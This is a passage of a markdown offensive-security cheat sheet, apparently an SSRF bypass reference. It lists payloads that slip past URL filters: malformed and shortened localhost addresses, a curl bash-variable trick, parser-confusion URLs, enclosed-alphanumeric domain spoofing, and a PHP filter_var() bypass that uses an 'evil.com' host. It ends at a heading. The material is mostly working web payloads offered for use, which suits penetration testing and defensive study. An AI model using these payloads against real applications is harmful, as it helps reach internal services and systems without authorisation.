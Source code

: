 ### Bypass using malformed urls

```powershell
localhost:+11211aaa
localhost:00011211aaaa
```

### Bypass using rare address

You can short-hand IP addresses by dropping the zeros

```powershell
http://0/
http://127.1
http://127.0.1
```

### Bypass using bash variables 

(curl only)

```powershell
curl -v "http://evil$google.com"
$google = ""
```

### Bypass using tricks combination

```powershell
http://1.1.1.1 &@2.2.2.2# @3.3.3.3/
urllib2 : 1.1.1.1
requests + browsers : 2.2.2.2
urllib : 3.3.3.3
```

### Bypass using enclosed alphanumerics 

[@EdOverflow](https://twitter.com/EdOverflow)

```powershell
http://ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ = example.com

List:
① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩ ⑪ ⑫ ⑬ ⑭ ⑮ ⑯ ⑰ ⑱ ⑲ ⑳ ⑴ ⑵ ⑶ ⑷ ⑸ ⑹ ⑺ ⑻ ⑼ ⑽ ⑾ ⑿ ⒀ ⒁ ⒂ ⒃ ⒄ ⒅ ⒆ ⒇ ⒈ ⒉ ⒊ ⒋ ⒌ ⒍ ⒎ ⒏ ⒐ ⒑ ⒒ ⒓ ⒔ ⒕ ⒖ ⒗ ⒘ ⒙ ⒚ ⒛ ⒜ ⒝ ⒞ ⒟ ⒠ ⒡ ⒢ ⒣ ⒤ ⒥ ⒦ ⒧ ⒨ ⒩ ⒪ ⒫ ⒬ ⒭ ⒮ ⒯ ⒰ ⒱ ⒲ ⒳ ⒴ ⒵ Ⓐ Ⓑ Ⓒ Ⓓ Ⓔ Ⓕ Ⓖ Ⓗ Ⓘ Ⓙ Ⓚ Ⓛ Ⓜ Ⓝ Ⓞ Ⓟ Ⓠ Ⓡ Ⓢ Ⓣ Ⓤ Ⓥ Ⓦ Ⓧ Ⓨ Ⓩ ⓐ ⓑ ⓒ ⓓ ⓔ ⓕ ⓖ ⓗ ⓘ ⓙ ⓚ ⓛ ⓜ ⓝ ⓞ ⓟ ⓠ ⓡ ⓢ ⓣ ⓤ ⓥ ⓦ ⓧ ⓨ ⓩ ⓪ ⓫ ⓬ ⓭ ⓮ ⓯ ⓰ ⓱ ⓲ ⓳ ⓴ ⓵ ⓶ ⓷ ⓸ ⓹ ⓺ ⓻ ⓼ ⓽ ⓾ ⓿
```

### Bypass filter_var() php function

```powershell
0://evil.com:80;http://google.com:80/ 
```

### Bypass against a weak parser
